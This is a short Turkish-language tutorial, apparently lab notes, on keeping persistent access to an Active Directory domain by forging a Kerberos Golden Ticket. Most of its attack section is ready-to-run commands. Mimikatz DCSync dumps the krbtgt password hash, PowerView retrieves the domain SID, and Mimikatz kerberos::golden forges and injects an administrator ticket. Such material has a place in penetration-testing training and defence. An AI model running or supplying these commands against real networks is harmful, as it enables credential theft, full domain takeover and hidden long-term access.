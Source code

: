 # Persistence & Exfiltrate

Persistence (Kalıcılık), bir saldırganın bir sisteme veya ağa ilk erişimi sağladıktan sonra, gelecekteki erişimini garanti altına almak ve tespit edilmeden kalmak için kurduğu mekanizmaları ifade eder. Exfiltration (Dışarı Sızdırma), bir saldırganın ele geçirdiği sistemden veya ağdan topladığı hassas verileri kendi kontrolündeki bir konuma (genellikle ağ dışındaki bir sunucuya) aktarma işlemidir. 

## Gereksinimler:

* **Domain SID:** Active Directory etki alanını benzersiz bir şekilde tanımlayan SID'in bir bölümüdür.

* **Krbtgt hash:** krbtgt hesabı, KDC hizmetinin Kerberos biletlerini şifrelemek ve imzalamak için kullandığı ana kriptografik anahtarı barındırır.

* **Domain Name:** Active Directory etki alanının insan tarafından okunabilen adıdır.

* **SIDS:** Windows tabanlı bir sistemde veya Active Directory'de bir kullanıcıyı, grubu, bilgisayarı veya diğer güvenlik ilkelerini (security principal) benzersiz bir şekilde tanımlar.


### Adım 1 | KRBTGT Hash'ını Almak

Domain hesabına erişip;

```
Invoke-Mimikatz -Command '"lsadump:dcsync /user:cyberwarfare\krbtgt"' -verbose
```

krbtgt hesabının parola hash'ini çalmak için kullanılan kritik bir komuttur. Çıktıdaki **Hash NTLM: <HASH>** kısmını kopyalıyoruz.

### Adım 2 | Domain SID

Etki alanının SID'sini almamız gerekiyor;

```
../PowerView_dev.ps1
Get-DomainSID -Verbose
```

Çıktıyı kopyalıyoruz.

### Adım 3 | Golden Ticket Oluşturmak

Edindiğimiz bilgiler ile bir Golden Ticket oluşturuyoruz;

```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:cyberwarfare.corp /sid:<Domain_SID> /krbtgt:<krbtgt_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt"' -verbose
```

Artık yetki yüksek ve KALICI dır.
